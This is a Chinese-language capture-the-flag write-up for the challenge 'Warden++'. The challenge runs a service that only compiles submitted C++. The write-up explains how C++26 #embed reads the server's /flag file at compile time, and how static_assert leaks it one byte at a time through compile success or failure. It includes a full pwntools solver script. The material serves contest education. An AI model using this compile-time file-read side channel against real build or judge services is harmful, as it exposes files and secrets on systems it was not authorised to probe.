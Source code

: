 # [Misc] Warden++

- 命题人：Rosayxy
- 题目分值：200 分

## 题目描述

<p>你坐在潮湿幽暗的囚牢里，听着典狱长喋喋不休的训话。</p>
<blockquote>
<p>“放心，你们提交的代码<strong>只会被编译</strong>，至于编译的结果，我这个人心慈手软，倒是会告诉你们”</p>
<p>“至于代码运行嘛，那倒是遥遥无期”</p>
<p>“代码的长度也会有限制，如果把服务器 DDoS 了，你们就等着被关小黑屋吧”</p>
<p>“Flag 的地点我也告诉你们，就在根目录下的 <code>/flag</code>，但是你们并不可能把它拿到手”</p>
<p>……</p>
</blockquote>
<p>你不甘心，作为最勇敢睿智的黑客，你认为任何监牢都会有弱点，而你已经在脑海里构思出来了无限种方法。</p>
<p>这时，有一句话透过了你的耳膜：</p>
<blockquote>
<p>“哦，以及我们的防护也在更新，我们已经把 g++ 的版本更新到了 <strong>g++-15</strong>，支持 <strong>C++26 的若干 feature</strong>，你们更逃不出去了！”</p>
</blockquote>
<p>听到这句话，你微微一笑，相信自己已经找到了越狱的关键。</p>
<div class="well">
<p><strong>萌新教学：</strong></p>
<p>如下面的说明所示，本题在 <code>prob07.geekgame.pku.edu.cn</code> 主机开放了 TCP 10007 端口。
你可以点击链接启动网页终端连接题目。如果涉及难以输入的特殊字符，也可以使用命令行工具 netcat 或者 pwntools 等带 socket 通信功能的库连接到这个端口。参见 <a href="#/info/faq">FAQ：关于终端交互</a>。</p>
<p>请与这个端口上的程序交互获得 Flag。连接到题目的频率限制是 30 秒 3 次。</p>
<p>题目会要求输入个人 Token 来验证你的选手身份。点击页面底部的 “复制个人 Token” 按钮可以复制自己的 Token。网页终端会自动填入 Token。</p>
</div>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>看看 <a target="_blank" rel="noopener noreferrer" href="https://en.cppreference.com/w/c/preprocessor/embed">#embed</a>。</li>
<li>你需要多次交互逐渐得到 Flag。每次提交的程序应当在 Flag 的内容满足某种条件时产生编译错误。</li>
</ul>
</div>

**[【附件：下载题目源码（wardenpp.zip）】](attachment/wardenpp.zip)**

**【终端交互：连接到题目】**

## 预期解法

本题的预期解法是分为两步：

1. 利用 C++ 26 的 `#embed` 功能，在编译期实现任意文件读取，把 `flag` 的内容读取到数组当中。
2. 对数组内容进行探测，通过编译成功与否的侧信道，泄露数组内容。

其中第二步对数组内容的探测，可以直接枚举 `flag` 数组每一个字节是否等于特定的值；更优的做法是，通过二分法，不断缩小 `flag` 数组每个字节的范围，直到可以唯一确定为止。

接着就是把对 `flag` 数组内容的判断，转化为编译成功与否，这一步可以利用 `static_assert` 特性，也可以用更传统的模板加 SFINAE 的方式。

完成以上步骤，就可以成功解出本题。代码如下：

```python
from pwn import *
context(log_level = "debug", arch = "amd64", os = "linux")

# p = process(["python3", "/app.py"])
p = remote("HOSTNAME", PORT)
p.sendline('TOKEN')
p.recvuntil("P.S Flag is at /flag on the server :)\n\n")

code_str = """
constexpr char flag[] = {
    #embed "/flag"
};
int main(){
    static_assert(flag[<<idx>>] <= <<char>>);
    return 0;
}
END
"""
flag = ""
for i in range(40):
    # 二分查找确定 flag[i]
    l, r = 32, 126
    while l < r:
        mid = (l + r) // 2
        code = code_str.replace("<<idx>>", str(i)).replace("<<char>>", str(mid))
        p.send(code)
        res = p.recv()
        log.info(f"try flag[{i}] <= {mid} ({chr(mid)})")
        log.info(res)
        # if res is empty, resend
        if b"Compilation" not in res:
            continue
        if b"Compilation Success" in res:
            r = mid
        else:
            l = mid + 1

    flag += chr(l)
    log.success(f"flag: {flag}")
log.success(f"final flag: {flag}")

p.interactive()
```
